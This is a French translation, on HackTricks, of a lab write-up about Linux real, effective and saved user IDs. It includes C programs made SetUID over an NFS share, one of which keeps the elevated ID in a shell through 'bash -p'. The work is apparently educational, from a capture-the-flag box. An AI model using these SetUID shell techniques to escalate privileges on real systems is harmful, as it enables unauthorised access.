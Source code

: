 # euid, ruid, suid

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une **entreprise de cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au [repo hacktricks](https://github.com/carlospolop/hacktricks) et [repo hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

**Ce post a été copié depuis** [**https://0xdf.gitlab.io/2022/05/31/setuid-rabbithole.html#testing-on-jail**](https://0xdf.gitlab.io/2022/05/31/setuid-rabbithole.html#testing-on-jail)

## **`*uid`**

* **`ruid`**: Il s'agit de l'**ID utilisateur réel** de l'utilisateur qui a démarré le processus.
* **`euid`**: Il s'agit de l'**ID utilisateur effectif**, c'est ce que le système regarde pour décider **quels privilèges le processus doit avoir**. Dans la plupart des cas, l'`euid` sera identique au `ruid`, mais un binaire SetUID est un exemple d'un cas où ils diffèrent. Lorsqu'un binaire **SetUID** démarre, l'**`euid` est défini sur le propriétaire du fichier**, ce qui permet à ces binaires de fonctionner.
* `suid`: Il s'agit de l'**ID utilisateur enregistré**, il est utilisé lorsqu'un processus privilégié (dans la plupart des cas en cours d'exécution en tant que root) doit **abaisser les privilèges** pour effectuer un comportement, mais doit ensuite **revenir** à l'état privilégié.

{% hint style="info" %}
Si un **processus non root** veut **changer son `euid`**, il ne peut le **définir** qu'aux valeurs actuelles de **`ruid`**, **`euid`** ou **`suid`**.
{% endhint %}

## set\*uid

À première vue, il est facile de penser que les appels système **`setuid`** définiraient le `ruid`. En fait, pour un processus privilégié, c'est le cas. Mais dans le cas général, il **définit en fait l'`euid`**. Selon la [page de manuel](https://man7.org/linux/man-pages/man2/setuid.2.html):

> setuid() **définit l'ID utilisateur effectif du processus appelant**. Si le processus appelant est privilégié (plus précisément : si le processus a la capacité CAP\_SETUID dans son espace de noms utilisateur), l'UID réel et l'ID utilisateur enregistré sont également définis.

Ainsi, dans le cas où vous exécutez `setuid(0)` en tant que root, cela définit tous les identifiants sur root et les verrouille essentiellement (car `suid` est 0, il perd la connaissance ou tout utilisateur précédent - bien sûr, les processus root peuvent changer pour n'importe quel utilisateur qu'ils veulent).

Deux appels système moins courants, **`setreuid`** (`re` pour réel et effectif) et **`setresuid`** (`res` inclut enregistré) définissent les identifiants spécifiques. Être dans un processus non privilégié limite ces appels (de la [page de manuel](https://man7.org/linux/man-pages/man2/setresuid.2.html) pour `setresuid`, bien que la [page](https://man7.org/linux/man-pages/man2/setreuid.2.html) pour `setreuid` ait un langage similaire) :

> Un processus non privilégié peut changer son **UID réel, son UID effectif et son ID utilisateur enregistré**, chacun pour l'un des suivants : l'UID réel actuel, l'UID effectif actuel ou l'ID utilisateur enregistré actuel.
>
> Un processus privilégié (sous Linux, celui ayant la capacité CAP\_SETUID) peut définir son UID réel, son UID effectif et son ID utilisateur enregistré sur des valeurs arbitraires.

Il est important de se rappeler que ceux-ci ne sont pas là en tant que fonctionnalité de sécurité, mais reflètent plutôt le flux de travail prévu. Lorsqu'un programme veut changer d'utilisateur, il change l'ID utilisateur effectif pour pouvoir agir en tant qu'utilisateur.

En tant qu'attaquant, il est facile de prendre de mauvaises habitudes en appelant simplement `setuid` car le cas le plus courant est de passer à root, et dans ce cas, `setuid` est effectivement identique à `setresuid`.

## Exécution

### **execve (et autres execs)**

L'appel système `execve` exécute un programme spécifié dans le premier argument. Les deuxième et troisième arguments sont des tableaux, les arguments (`argv`) et l'environnement (`envp`). Il existe plusieurs autres appels système qui sont
```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setuid(1000);
    system("id");
    return 0;
}
```
Ce programme est compilé et configuré en tant que SetUID sur Jail via NFS:
```bash
oxdf@hacky$ gcc a.c -o /mnt/nfsshare/a;
...[snip]...
oxdf@hacky$ chmod 4755 /mnt/nfsshare/a
```
En tant que root, je peux voir ce fichier:
```
[root@localhost nfsshare]# ls -l a 
-rwsr-xr-x. 1 frank frank 16736 May 30 04:58 a
```
Lorsque j'exécute ceci en tant que nobody, `id` s'exécute en tant que nobody:
```bash
bash-4.2$ $ ./a
uid=99(nobody) gid=99(nobody) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0
```
Le programme démarre avec un `ruid` de 99 (personne) et un `euid` de 1000 (frank). Lorsqu'il atteint l'appel `setuid`, ces mêmes valeurs sont définies.

Ensuite, `system` est appelé et je m'attendrais à voir un `uid` de 99, mais aussi un `euid` de 1000. Pourquoi n'y en a-t-il pas un ? Le problème est que **`sh` est un lien symbolique vers `bash`** dans cette distribution :
```
$ ls -l /bin/sh
lrwxrwxrwx. 1 root root 4 Jun 25  2017 /bin/sh -> bash
```
Ainsi, l'appel système `system` appelle `/bin/sh sh -c id`, qui est effectivement `/bin/bash bash -c id`. Lorsque `bash` est appelé sans `-p`, il voit `ruid` de 99 et `euid` de 1000, et définit `euid` à 99.

### setreuid / system <a href="#setreuid--system" id="setreuid--system"></a>

Pour tester cette théorie, je vais essayer de remplacer `setuid` par `setreuid`:
```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setreuid(1000, 1000);
    system("id");
    return 0;
}
```
Compilation et permissions :
```
oxdf@hacky$ gcc b.c -o /mnt/nfsshare/b; chmod 4755 /mnt/nfsshare/b
```
Maintenant en prison, maintenant `id` renvoie l'uid de 1000:
```
bash-4.2$ $ ./b
uid=1000(frank) gid=99(nobody) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0
```
L'appel `setreuid` définit à la fois `ruid` et `euid` à 1000, donc lorsque `system` appelle `bash`, ils correspondent et les choses continuent comme frank.

### setuid / execve <a href="#setuid--execve" id="setuid--execve"></a>

En appelant `execve`, si ma compréhension ci-dessus est correcte, je pourrais également ne pas me soucier de manipuler les uids et plutôt appeler `execve`, car cela conservera les identifiants existants. Cela fonctionnera, mais il y a des pièges. Par exemple, le code commun pourrait ressembler à ceci:
```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setuid(1000);
    execve("/usr/bin/id", NULL, NULL);
    return 0;
}
```
Sans l'environnement (je passe NULL pour simplifier), j'aurai besoin d'un chemin complet sur `id`. Cela fonctionne, renvoyant ce à quoi je m'attends:
```
bash-4.2$ $ ./c
uid=99(nobody) gid=99(nobody) euid=1000(frank) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0
```
Le `[r]uid` est 99, mais le `euid` est 1000.

Si j'essaie d'obtenir un shell à partir de cela, je dois être prudent. Par exemple, en appelant simplement `bash`:
```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setuid(1000);
    execve("/bin/bash", NULL, NULL);
    return 0;
}
```
Je vais compiler cela et le définir en SetUID:
```
oxdf@hacky$ gcc d.c -o /mnt/nfsshare/d
oxdf@hacky$ chmod 4755 /mnt/nfsshare/d
```
Pourtant, cela renverra tout de même tous les nobody:
```
bash-4.2$ $ ./d
bash-4.2$ $ id
uid=99(nobody) gid=99(nobody) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0
```
Si cela avait été `setuid(0)`, cela fonctionnerait bien (en supposant que le processus avait la permission de le faire), car cela changerait les trois identifiants en 0. Mais en tant qu'utilisateur non root, cela ne fait que définir l'`euid` sur 1000 (ce qu'il était déjà), puis appelle `sh`. Mais `sh` est `bash` sur Jail. Et lorsque `bash` démarre avec un `ruid` de 99 et un `euid` de 1000, il ramènera l'`euid` à 99.

Pour résoudre ce problème, j'appellerai `bash -p`:
```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    char *const paramList[10] = {"/bin/bash", "-p", NULL};
    setuid(1000);
    execve(paramList[0], paramList, NULL);
    return 0;
}
```
Cette fois, l'`euid` est présent:
```
bash-4.2$ $ ./e
bash-4.2$ $ id
uid=99(nobody) gid=99(nobody) euid=1000(frank) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0
```
Ou je pourrais appeler `setreuid` ou `setresuid` au lieu de `setuid`.

